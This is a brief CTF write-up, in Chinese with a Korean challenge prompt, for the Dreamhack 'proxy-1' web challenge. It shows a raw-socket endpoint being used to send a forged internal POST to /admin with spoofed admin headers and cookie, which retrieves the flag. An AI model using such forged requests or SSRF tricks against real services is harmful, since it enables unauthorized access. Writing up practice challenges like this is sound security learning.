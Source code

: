 ```yaml
---
title: proxy-1
published: 2025-02-20
updated: 2025-07-09
description: "Dreamhack"
image: ""
tags: ["CTF Writeup", "Dreamhack", "Web"]
category: "Dreamhack"
draft: false
---
```


# proxy-1

題目：

> Raw Socket Sender가 구현된 서비스입니다.  
> 요구하는 조건을 맞춰 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.

`/socket`允許我們連線到任意 IP 和 Port，並傳送自訂的請求內容

![/admin](/assets/dreamhack/proxy-1/image-2.png)

根據原始碼給的更改 datd 並填寫到`/socket`

![/socket](/assets/dreamhack/proxy-1/image-1.png)

```
POST /admin HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Admin Browser
DreamhackUser: admin
Cookie: admin=true
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=admin
```

![flag](/assets/dreamhack/proxy-1/image.png)
